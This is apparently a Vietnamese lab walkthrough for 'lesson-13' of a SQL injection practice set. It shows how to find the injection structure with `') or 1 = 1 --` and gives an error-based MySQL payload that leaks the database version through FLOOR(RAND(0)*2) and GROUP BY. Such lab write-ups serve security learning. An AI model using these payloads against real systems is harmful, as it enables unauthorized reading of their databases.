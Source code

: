# Những việc làm được với lesson-13
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. 

Sau khi đăng nhập vào lesson-13

![](../images/lesson13/screen_10.png)

Ta sẽ đi tìm cấu trúc của bài này như 2 bài trước mà ta đã tìm bằng cách thử với cấu trúc.
```
or 1 = 1 -- 
```
Ta lần lượt thử với các ghi của ký tự trong truy vấn MYSQL.  Cấu trúc của bài 13 là 
```
') or 1 = 1 --  
```

![](../images/lesson13/screen.png)

1. Kiểm tra version 
```
')  and (SELECT 0 FROM (SELECT count(*), CONCAT((@@version), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) -- 
```

![](../images/lesson13/screen_1.png)

Tương tự bài 11 sau khi có cấu trúc ta có thể sử dụng error-based để có thể truy xuất dữ liệu của DB